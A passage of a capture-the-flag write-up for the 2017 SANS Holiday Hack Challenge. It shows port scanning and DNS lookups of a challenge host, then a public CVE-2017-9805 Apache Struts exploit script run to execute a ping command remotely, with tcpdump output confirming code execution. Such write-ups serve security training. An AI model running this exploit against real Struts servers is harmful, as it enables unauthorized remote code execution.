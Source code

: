 ```
root@kali:~# nmap l2s.northpolechristmastown.com -p0-

Starting Nmap 7.60 ( https://nmap.org ) at 2017-12-16 20:01 EST
Nmap scan report for l2s.northpolechristmastown.com (35.185.84.51)
Host is up (0.056s latency).
Other addresses for l2s.northpolechristmastown.com (not scanned):
rDNS record for 35.185.84.51: 51.84.185.35.bc.googleusercontent.com
Not shown: 65532 filtered ports
PORT     STATE  SERVICE
22/tcp   open   ssh
80/tcp   open   http
443/tcp  open   https
3389/tcp closed ms-wbt-server

Nmap done: 1 IP address (1 host up) scanned in 710.85 seconds
```

## Winter Wonder Landing

> Visit the North Pole and Beyond at the Winter Wonder Landing Level to collect the first page of The Great Book using a giant snowball.

Is how the Hack Challenge begins... Well, clearly I didn't read that closely enough, as I actually started my investigation over in the "Winconceivable: The Cliffs of Windsanity"

## Breaking in to Letters to Santa Application

- Looked in l2s.northpolechristmastown.com web source code, and discovered a "dev.northpolechristmastown.com" server, which was running an Apache Struts application.

```
root@kali:~# host l2s.northpolechristmastown.com
l2s.northpolechristmastown.com has address 35.185.84.51
root@kali:~# host dev.northpolechristmastown.com
dev.northpolechristmastown.com has address 35.185.84.51
```

- Followed hints from Sparkle Redberry in "North Pole and Beyond", which pointed me towards: https://pen-testing.sans.org/blog/2017/12/05/why-you-need-the-skills-to-tinker-with-publicly-released-exploit-code which included a link to some simple exploit code I was able to make use of https://github.com/chrisjd20/cve-2017-9805.py

- That allowed me to run:

```
python cve-2017-9805.py -u https://dev.northpolechristmastown.com/orders.xhtml -c 'ping -c 2 xx.xx.xx.xx'
```

Where `xx.xx.xx.xx` is my local host where I was running a tcpdump of the traffic:

```
root@kali:~# tcpdump -nn
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes
05:29:29.604260 IP 35.196.226.77 > xx.xx.xx.xx: ICMP echo request, id 32706, seq 1, length 64
05:29:29.604290 IP xx.xx.xx.xx > 35.196.226.77: ICMP echo reply, id 32706, seq 1, length 64
05:29:30.605486 IP 35.196.226.77 > xx.xx.xx.xx: ICMP echo request, id 32706, seq 2, length 64
05:29:30.605509 IP xx.xx.xx.xx > 35.196.226.77: ICMP echo reply, id 32706, seq 2, length 64
```
